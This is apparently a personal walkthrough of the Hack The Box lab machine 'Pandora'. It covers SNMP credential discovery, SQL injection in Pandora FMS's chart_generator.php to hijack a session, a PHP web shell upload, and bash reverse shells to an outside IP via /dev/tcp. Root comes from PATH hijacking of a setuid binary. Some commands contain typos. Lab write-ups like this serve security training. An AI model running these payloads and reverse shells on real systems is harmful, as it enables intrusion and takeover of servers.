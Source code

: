 - 10.10.11.136 leads to panda.htb web page
	- added to /etc/hosts
- nmap shows port 80 http and port 22 ssh
	```bash
nmap 10.10.11.136
nmap -sV -sT 10.10.11.136
```
	- Linux OS
	- Apache Server 2.4.41
- dirsearch finds assets subdirectory
	```bash
diresearch -u http://panda.htb
```
	- Assets shows a directory list with .svg images
		- maybe there is a file upload vulnerability?
			- XXE /XSSVulnerability
			- github link:
				https://github.com/makeplane/plane/security/advisories/GHSA-rcg8-g69v-x23j
				- The application allows users to upload SVG files as profile images without proper sanitization. SVG files can contain embedded JavaScript code that executes when the image is rendered in a browser. This creates an XSS vulnerability where malicious code can be executed in the context of other users' sessions.
				- How to upload file now..
- many loophles, the assets hold images, one of the images talks of plainadmin website. there are svg vulnerabilities. fuzzing and subdomain search is a bit difficult as pages return true always.
--------
- **But the key is to check udp ports for nmap**
	```bash
nmap -sU 10.10.11.136 #slower 
nmap -sU --min-rate=5000 10.10.11.136 #faster
```
## SNMP Enumration
- perform snmpwalk
	```bash
	snmpwalk -v 1 -c public 10.10.11.136
```
	- We find a username and password:
		```bash
iso.3.6.1.2.1.25.4.2.1.5.1101 = STRING: "-u daniel -p HotelBabylon23"
```
	- can ssh into machine as this user **but we cannot access user flag as its for user matt**
## More enumeration
- uname -a gives 
	- Linux pandora 5.4.0-91-generic #102-Ubuntu SMP Fri Nov 5 16:31:28 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
- searchsploit pandora gives a bunch of exploits
- i found a ruby exploit but cant seem to transfer the file
- searching /var/www/
	- we find pandora extra folder with pandora console
	- this implies there maybe another virtual host
- search /etc/apache2/sites-available
	- we see in pandora.conf there is a locally hosted site
		- pandora.panda.htb hosted locally on 80
- **New technique**
	- now to get access to this site we need to forward it to our localhost via a port
	- ssh into daniel again but with -L to set a listener port which will forward this localhost to our machine's localhost ip
		```bash
ssh -L 9090:127.0.0.1:80 daniel@panda.htb
```
		- to check pass this command on your local machine to check if ssh is listening
			```bash
ss -lntp | grep "9090"
```
	- add pandora.panda.htb to localhost in /etc/hosts
	- access url via port 9090 to get login screen
----------
## Login Page Enumeration
- Googling the version of Pandora FMS v7.0NG.742_FIX_PERL2020
	- we find RCE exploit
		- https://www.sonarsource.com/blog/pandora-fms-742-critical-code-vulnerabilities-explained/
			- sql database in there
			- in line 72 of _chart_generator.php_, the user input is fetched from the `$_REQUEST` superglobal which contains GET and POST parameters, as well as cookie values. The latter is probably the reason why `get_parameter()` was not used here. The user input **`$_REQUEST['session_id']`** is passed to the constructor of the class `PandoraFMS\User` without any sanitization.
			- chart generator is vulnerable
			- /include path : checked url and leads to a directory with chat_generator.php file
		- https://www.exploit-db.com/exploits/50961
- need to capture session id to use for sqlmap
	- since we know we attack the session id of chat_generator.php
		```bash
http://pandora.panda.htb:9090/pandora_console/include/chart_generator.php?session_id=' show datases or 1=1-- -
```
	- we get sql error showing its vulnerable to SQLi
## SQLMAP enumeration
- enumerate with sqli 
	```bash
	```bash
sqlmap -u "http://pandora.panda.htb:9090/pandora_console/include/chart_generator.php?session_id=*" --batch --level=5 --risk=3 -D pandora -T tsessions_php --dump
```
	- FIRST PASSWD --dbs, found a database, then --tables to find tables then --dump a table step by step
	- found matt session_id
		- added the session id to my url
		- went back to pandora.panda.htb:9090 and was logged in
		- however Im not admin so only limited functionality
----
- **ALTERNATE METHOD FOR admin access to page (binary analysis) HARD FIND**
	- checking the table again we see
		- id_usuario|s:6:"daniel"
		- somethign similar for matt
		- the s value represents the characters (daniel is 6 characters)
		- add this to url :
			```bash
http://pandora.panda.htb:9090/pandora_console/include/chart_generator.php?sessionid=' union select 1,2,'id_usuario|s:5:"admin";'-- -
```
	- we get no error message and refreshion pandora.panda.htb:9090 we get admin access
		- we try to upload php code into file manager (shows its in image directory so can url into pandora_console/images to see and execute)
		- Three methods:
			- upload pentest monkeys php reverse shell with creds and listen on port.
			- manually we can create a php code that calls a command line
				```php
<?php
system($_REQUEST['cmd']);
?>
```
				- Upload and open file in images directory
				- pass url to check if working
				```php
http://pandora.panda.htb:9090/pandora_console/images/shell.php?cmd=whoami
```
				- we get response matt
				- open burpsuite and capture this
					- change request type to post
					- pass this command at the bottom (a blank line in between the request and this)
					```bash
cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.25/9998 0>&1'
```
					- Select everything from after "cmd=" and press Ctrl+U to url encode and then send the packet while listening on port 9998.
						- we get reverse shell 
-----------
- **Another way to get reverse shell without admin access**
	- php ajax.php vulnerability
		- capture packets via burp suite as matt logs in
	- we find an ajax.php file
		- https://www.coresecurity.com/core-labs/advisories/pandora-fms-community-multiple-vulnerabilities
			- can execute exploit in this post request
				```bash
page=include/ajax/events&perform_event_response=10000000
&**target=bash -c 'bash -i >& /dev/tcp/10.10.14.25/9998 0>&1'&response_id=1
```
		- we also need to url encode it (Ctrl+U in Burp Suite)
			```bash
page=include/ajax/events&perform_event_response=10000000
&target=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.25/9997+0>%261'&response_id=1
```
		- have netcat listener listening on port 9997
			- to gain access at matt user
## Privilege escalation
- on enumerating we do 
	```bash
find / -type f -perm -4000 2>/dev/null
```
	- and we find pandora_backup with root priv
		- yet we cant execute it
		- this is due to a restricted shell
			- why? we tried sudo -l and it gave a weird error:
				```bash
sudo: PERM_ROOT: setresuid(0, -1, -1): Operation not permitted
sudo: unable to initialize policy plugin
```
			- 
			- https://gtfobins.github.io/gtfobins/at/#shell
				- can use at to break of of restricted shell
				```bash
# tried but didnt work
```
		- alternatively, create a ssh key in your local machine and send it to target "
			```bash
python -m http.server:8001 # where you have the key
in target matchine /home/matt.ssh: wget 10.10.14.25:8001/matt.pub #get public key to .ssh directory
mv matt.pub authorized_keys
chmod 600 authorized_keys # VERY IMPORTANT
in local machine : chmod 600 matt
ssh -i matt matt@10.10.11.136 # should not get password prompt
```
		- then in shell create tar file and make it executable with /bin/bash as entry(why? if you look at pandora_backup which we want to execute, that is the command which gets use root)
		- create path to current directory
			```bash
echo /bin/bin > tar
chmod +x tar
export PATH=$(pwd):$PATH
echo $PATH # should show current direvtory first now
/usr/bin/pandora_backup
```
		- we gain root access
-------
## The Priv Esc exploit in pandora_backup
- on doing strings or Ghidra we can find the main code of pandora_backup
	```bash
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
tar -cvf /root/.backup/pandora-backup.tar.gz /var/www/pandora/pandora_console/*
```
	- we create atar file with the command /bin/bash into it and make it executable. 
	- Furthermore we check the $PATH as thats what the command path checks when executing. We change this to our current directory 
		```bash
export PATH=$(pwd):$PATH
echo $PATH
```
	- then we execute pandora_backup which calls that command but since there is a tar executable in our current working directory.
	- since this runs as setuid it runs as root so hen /bin/bash is executed in our altered tar executable, it executes the root shell for us.

testing
